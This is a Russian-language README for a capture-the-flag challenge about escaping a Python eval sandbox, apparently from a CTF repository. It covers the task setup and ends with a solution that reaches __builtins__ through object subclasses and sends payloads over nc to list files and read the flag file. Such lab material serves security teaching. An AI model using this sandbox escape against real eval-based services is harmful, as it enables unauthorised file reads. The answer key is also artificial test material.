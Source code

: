 Python eval
===========
> \- Змеи... Вечно они всё портят... Они украли мою прелесть и спрятали здесь: (адрес и порт)... Подлые змеи...  
> \- Ходят слухи, что ты говоришь на парселтанге. Помоги забрать прелесть у наглых змей, а я помогу тебе выбраться.  
> \- Здесь всё, что я знаю об этом месте: (исходник(eval.py))  
> \- May the Dragon Force be with you...  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
Необходимо создать пользователя с правами только на чтение файла с флагом.  
Файл с сервером, жалетельно, положить отдельно от файла с флагом, и запускать его, из папки с флагом.  
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Адрес хоста, по умолчанию - socket.gethostbyname(socket.gethostname())  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
